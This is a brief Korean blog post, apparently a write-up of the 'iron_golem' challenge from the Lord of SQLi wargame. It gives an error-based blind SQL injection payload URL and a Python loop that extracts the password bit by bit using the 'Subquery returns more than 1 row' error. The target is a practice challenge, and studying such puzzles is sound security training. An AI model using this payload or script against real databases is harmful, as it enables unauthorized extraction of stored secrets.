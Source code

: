 ```yaml
---
layout: post
title: LOS Iron_Golem
date: 2015-08-16 23:08:00 +0900
category: Hacking 
---
```

```
http://leaveret.kr/los/iron_golem_beb244fe41dd33998ef7bb4211c56c75.php?pw=%27or%20if(substr(lpad(bin(ord(substr(pw,"+str(j)+",1))),16,%270%27),"+str(i)+",1)=1,(select%201%20union%20select%202),0)%23
```



SubQuery를 이용해 해결하는 문제 기억이 맞다면 키값때문에 굉장히 빡쳤다.

키값이 한글임 아오 



중간에 str(j)랑 str(i)를 바꿔서 공격

http://mwultong.blogspot.com/2008/02/16-2-10-8-hex-calc.html







```
for j in range(1,23):

        for i in reversed(range(1,17)):

                site="http://los.sandbox.cash/chall/iron_golem_0803cf46da7bda62b328dbfc1d77fe15.php?pw="

                site+="%27or%20if(substr(lpad(bin(ord(substr(pw,"+str(j)+",1))),16,%270%27),"+str(i)+",1)=1,(select%201%20union%20select%202),0)%23"

                print (site)

                r=requests.put(site,headers=header)



                if "Subquery returns more than 1 row" in r.text:

                  q+=w

                w=w*2

        key=key+"   "+str(q)

        print ("\nkey"+key+"\n")

        q=0

        w=1
```










